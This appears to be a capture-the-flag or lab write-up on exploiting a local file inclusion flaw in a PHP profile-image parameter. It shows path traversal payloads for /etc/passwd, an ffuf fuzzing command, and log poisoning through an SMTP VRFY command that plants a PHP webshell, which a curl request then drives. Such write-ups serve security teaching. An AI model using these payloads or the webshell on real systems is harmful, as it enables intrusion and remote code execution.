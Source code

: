 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

{% code overflow="wrap" %}
```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```
{% endcode %}

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system. From the previous enumeration steps, we have found multiple open ports/services, where some of them provides use a means to escalate the LFI to RCE.

#### Log poisoning

I tried accessing the following log files (appended to found payload above):

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
```

#### 1. SMTP (port 25)  \~ `/var/log/syslog`

From enumeration of the _**SMTP**_ commands, I found a few that will directly log user inputs into the log file:

```sh
1. RCPT TO:<input> # requires MAIL TO:<addr> before
2. VRFY <input>
```

With this in mind, we can exploit this to achieve RCE. Let's use the _**VRFY**_ command:

```sh
VRFY <?php system($_GET['cmd']); ?>
```

Now, reading the `/var/log/syslog` via the LFI vulnerability, we have gained a webshell. We can access it via the command:

{% code overflow="wrap" %}
```sh
$ curl 'http://xxx.xxx.xxx.xxx:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/syslog&cmd=<command>' -H "Cookie: PHPSESSID=xxxx" --silent | tail -n 20

```
{% endcode %}

The following command allows us to read the last 20 lines of the log file. Remember to replace `<command>` with the actual command, and set the **PHPSESSID**.

We can now replace the command to look around the directory and view the contents of the text file to retrieve our final flag!

#### 2. SSH (port 22) \~ `/var/log/auth.log`&#x20;

...

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
